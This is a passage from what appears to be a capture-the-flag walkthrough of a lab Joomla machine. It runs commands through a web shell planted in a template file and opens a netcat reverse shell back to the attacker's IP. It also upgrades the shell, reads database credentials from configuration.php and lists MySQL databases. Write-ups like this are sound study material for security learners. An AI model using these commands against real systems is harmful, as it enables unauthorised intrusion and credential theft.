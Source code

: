 We verify if the command "id" is executed correctly.

```console
root@kali:~$ curl http://192.168.179.165/joomla/templates/beez3/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To get a shell, first we need to start a netcat listener and run the following curl request.

```console
root@kali:~$ curl http://192.168.179.165/joomla/templates/beez3/error.php?cmd=$(php -r "echo urlencode('nc 192.168.179.1 443 -e /bin/bash');")
```

To upgrade to a full TTY shell, follow the steps below.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.165] 35862
script -qc /bin/bash /dev/null
www-data@glasgowsmile:/var/www/html/joomla/templates/beez3$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

<www/html/joomla/templates/beez3$ export TERM=xterm-256color                 
 164data@glasgowsmile:/var/www/html/joomla/templates/beez3$ stty rows 39 columns 
www-data@glasgowsmile:/var/www/html/joomla/templates/beez3$
```

Listing the joomla creds to connect to the MySQL database.

```console
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php
...
public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
        public $dbprefix = 'jnqcu_';
        public $live_site = '';
        public $secret = 'fNRyp6KO51013435';
...
```

Listing the MySQL databases.

```console
www-data@glasgowsmile:/var/www/html/joomla$ mysql -u joomla -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 3663
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
```